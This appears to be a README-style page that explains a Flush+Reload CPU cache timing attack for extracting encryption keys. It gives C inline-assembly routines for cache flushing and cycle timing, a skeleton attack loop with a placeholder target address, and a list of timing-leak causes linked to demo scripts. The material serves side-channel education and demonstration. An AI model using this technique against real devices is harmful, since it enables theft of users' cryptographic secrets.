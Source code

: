 To demonstrate a malicious app that performs a timing attack to extract encryption keys, such as the one used by applications to encrypt storage, you would need to show how the app can flush the CPU cache and measure the timing of secret-dependent operations with sufficient precision. Below is a conceptual overview of how such an attack might be constructed and demonstrated:

## Overview of the Attack
Flush+Reload Timing Attack: This attack leverages the CPU cache to infer information about secret-dependent operations by measuring the time it takes to access data.

Prerequisites:
Ability to run unprivileged code on the target device.
High-precision timers to measure cache access times.
Knowledge of where in memory the secrets or secret-dependent operations are likely to be.

Steps to Construct the Attack
1. Setting Up the Environment
Install Necessary Tools: You'll need tools for monitoring and manipulating the CPU cache and measuring time with high precision.

# Install necessary packages
<pre>
apt-get install build-essential perf
</pre>

2. Flush the CPU Cache
Use clflush instruction to flush the CPU cache. This instruction is usually available through inline assembly or specific libraries.

<pre>
void flush_cache(void *addr) {
    asm volatile("clflush (%0)" :: "r"(addr));
}
</pre>

3. Measure Access Time
Use high-precision timers to measure the time it takes to access data.

<pre>
uint64_t measure_access_time(void *addr) {
    uint64_t start, end;
    asm volatile("mfence\n\t"
                 "rdtsc\n\t"
                 "lfence\n\t"
                 "mov %%rax, %0\n\t"
                 : "=r" (start)
                 :
                 : "%rax", "%rdx");
    asm volatile("mov (%0), %%rax\n\t" :: "r"(addr) : "rax");
    asm volatile("mfence\n\t"
                 "rdtsc\n\t"
                 "lfence\n\t"
                 "mov %%rax, %0\n\t"
                 : "=r" (end)
                 :
                 : "%rax", "%rdx");
    return end - start;
}
</pre>

4. Identify Secret-Dependent Operations
Identify the memory addresses of secret-dependent operations. This requires understanding the target application's behavior and memory layout.

5. Conduct the Timing Attack
Repeatedly flush the cache and measure the access times to infer the secret. This involves statistical analysis to distinguish between cache hits and misses.

<pre>
void perform_attack() {
    void *target_addr = /* address of the secret-dependent operation */;
    while (1) {
        flush_cache(target_addr);
        uint64_t time = measure_access_time(target_addr);
        if (time < THRESHOLD) {
            // Cache hit, likely secret access
            // Collect timing data and analyze
        } else {
            // Cache miss
        }
    }
}
</pre>

# Timing Attack Variations
Timing attacks on loading or processing secrets can be introduced in various ways. The delay may be caused by:

- [x] :zap: Function Calls: Delays introduced by calling different functions for correct or incorrect characters or operations[^1].
- [x] :zap: Conditional Branching: Conditional branches may introduce different timing behavior based on the data being processed[^2].
- [x] :zap: Differences in Processing Under Different Conditions: Different processing paths or states may cause the system to exhibit varying delays depending on the condition being met (e.g., whether the secret is correctly guessed or not)[^3].


[^1]: [demo_delay_by_call_function.py](demo_delay_by_call_function.py)  
  Delays introduced by calling different functions.
[^2]: [demo_delay_by_conditional_branching.py](demo_delay_by_conditional_branching.py)  
  Delays introduced by conditional branching.
[^3]: [demo_delay_by_process_condition_breaking.py](demo_delay_by_process_condition_breaking.py)  
  Delays introduced by different processes or instructions.


